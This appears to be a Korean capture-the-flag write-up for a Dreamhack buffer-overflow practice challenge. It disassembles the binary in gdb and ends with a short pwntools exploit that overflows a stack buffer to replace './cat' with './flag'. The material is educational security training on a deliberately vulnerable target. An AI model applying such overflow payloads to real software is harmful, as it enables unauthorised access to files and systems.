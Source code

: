 ```yaml
---
title: bof
date: 2025-05-19
categories: [Dreamhack, pwnable]
tags: [wargame]
---
```


# Description

Buffer overflow is one of the basics of pwnable 🐱
The path of the flag file is /home/bof/flag.


# Solution

### 주어진 파일 분석
``` sh
.
├── bof
├── cat
└── flag
```
``` sh
$file *
bof:  ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6ee3ca326b528ee95ff762279b9c27469bc76af9, for GNU/Linux 3.2.0, not stripped
cat:  ASCII text
flag: ASCII text
```
```sh
./bof
meow? aa

 /\_/\   meow~
( o.o )
 > ^ <

meow, aa :)
```
meow? 이후 입력을 받은 값을 후에 다시 출력해 주는 실행파일 bof가 있다. 
### 문제 풀이 

gdb를 이용해 바이너리를 분석하였다. 
``` sh 
gdb-peda$ info func

...
0x0000000000401236  read_cat
0x000000000040132c  init
0x0000000000401391  main
0x0000000000401420  _fini
```
info func를 통해 함수들을 살펴보면 main 함수, read_cat 함수 등이 있는 것을 확인할 수 있다.   
pdisas main을 통해 main 함수 내부를 살펴보면 다음과 같다. 
```sh
gdb-peda$ pdisas main 

Dump of assembler code for function main:
   0x0000000000401391 <+0>:     endbr64
   0x0000000000401395 <+4>:     push   rbp
   0x0000000000401396 <+5>:     mov    rbp,rsp
   0x0000000000401399 <+8>:     sub    rsp,0x90
   0x00000000004013a0 <+15>:    mov    eax,0x0
   0x00000000004013a5 <+20>:    call   0x40132c <init>
   0x00000000004013aa <+25>:    lea    rax,[rbp-0x10]
   0x00000000004013ae <+29>:    mov    DWORD PTR [rax],0x61632f2e
   0x00000000004013b4 <+35>:    mov    WORD PTR [rax+0x4],0x74
   0x00000000004013ba <+41>:    lea    rax,[rip+0xc6c]        # 0x40202d
   0x00000000004013c1 <+48>:    mov    rdi,rax
   0x00000000004013c4 <+51>:    mov    eax,0x0
   0x00000000004013c9 <+56>:    call   0x4010d0 <printf@plt>
   0x00000000004013ce <+61>:    lea    rax,[rbp-0x90]
   0x00000000004013d5 <+68>:    mov    rsi,rax
   0x00000000004013d8 <+71>:    lea    rax,[rip+0xc55]        # 0x402034
   0x00000000004013df <+78>:    mov    rdi,rax
   0x00000000004013e2 <+81>:    mov    eax,0x0
   0x00000000004013e7 <+86>:    call   0x401130 <__isoc99_scanf@plt>
   0x00000000004013ec <+91>:    lea    rax,[rbp-0x10]
   0x00000000004013f0 <+95>:    mov    rdi,rax
   0x00000000004013f3 <+98>:    call   0x401236 <read_cat>
   0x00000000004013f8 <+103>:   lea    rax,[rbp-0x90]
   0x00000000004013ff <+110>:   mov    rsi,rax
   0x0000000000401402 <+113>:   lea    rax,[rip+0xc31]        # 0x40203a
   0x0000000000401409 <+120>:   mov    rdi,rax
   0x000000000040140c <+123>:   mov    eax,0x0
   0x0000000000401411 <+128>:   call   0x4010d0 <printf@plt>
   0x0000000000401416 <+133>:   mov    eax,0x0
   0x000000000040141b <+138>:   leave
   0x000000000040141c <+139>:   ret
```
8번 라인부터 확인해 보면 스택 탑을 0x90만큼 올려 준 것을 확인할 수 있고, 25번 라인부터 확인하면 그 중에서 0x10만큼의 공간에 0x2e2f636174를 넣어 준 것을 확인할 수 있다. 아스키 코드 변환해 보면 ./cat에 해당하는 16진수 값들이다.    
rbp-0x10, 즉 ./cat 값은 read_cat 함수를 호출할 때 rdi에 들어가는 값이므로 여기에 ./cat이 아닌 ./flag를 넣게 된다면 플래그 값을 읽어올 수 있다.   
61번 라인에서 볼 수 있듯 입력 값은 scanf 이전에 rsi에 담긴 주소부터 저장이 되므로 rbp-0x90에서 rbp-0x10까지 (0x80만큼) 아무 값이나 넣어 채워 주고, rbp-0x10부터 ./flag에 해당하는 값을 넣도록 코드를 작성하였다. 

``` python
from pwn import *

p = process("./bof")

p.recv()

payload = 'A'* 0x80
payload += './flag'

p.sendline(payload.encode())
p.interactive()
```

실제 플래그를 얻기 위해서는 서버 정보를 받아 와 remote를 통해 문제를 풀이하면 됨 
